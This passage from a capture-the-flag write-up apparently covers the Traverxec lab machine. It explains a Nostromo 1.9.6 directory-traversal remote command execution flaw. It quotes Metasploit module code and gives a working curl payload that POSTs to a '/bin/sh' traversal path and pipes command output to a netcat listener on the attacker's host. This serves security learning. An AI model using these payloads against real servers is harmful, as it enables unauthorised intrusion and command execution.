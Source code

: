 

There's a Metasploit one (which I avoid), and a shell script. The shell
script is an exploit for an older version. I'll take a quick look with
`searchsploit -x exploits/linux/remote/35466.sh`. It says that versions
prior to 1.9.4 are affected, so not here. The way the exploit works is
sending a POST to `/..%2f..%2f..%2fbin/sh`. That's basic directory
traversal, and using `%2f` (hex for `/`) must bypass filtering. And then
whatever is the POST data is passed to `sh`. But that doesn't work here.

Some googling reveals the [source for the MSF
exploit](https://packetstormsecurity.com/files/155045/Nostromo-1.9.6-Directory-Traversal-Remote-Command-Execution.md)
on PacketStorm. It targets up to 1.9.6, which is the version on
Traverxec. Reading the source, I find the `execute_command` function:



      def execute_command(cmd, opts = {})
        send_request_cgi({
          'method'  => 'POST',
          'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
          'headers' => {'Content-Length:' => '1'},
          'data'    => "echo\necho\n#{cmd} 2>&1"
          }
        )
      end



It's doing the same thing as the previous exploit, only this time,
instead of url encoding the `/` characters, there are extra `%0d` (or
`\n` newlines) between the `.`s.

### Exploit POC

I'll start playing around with `curl` and see if I can get it to work.
I'll start with the following command:
`curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d "id | nc 10.10.14.6 443"`.
The options are:

-   `-s` - silence the progress bar and error messages
-   `-X POST` - send a POST request
-   `http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh` - The target, with
    the directory traversal to access `/bin/sh`
-   `-d "id | nc 10.10.14.6 443"` - The command I want to run, which
    will send the results of `id` back to a listener on my box port 443.

When I run that, with `nc` listening on 443, I get results immediately:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:52998.
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
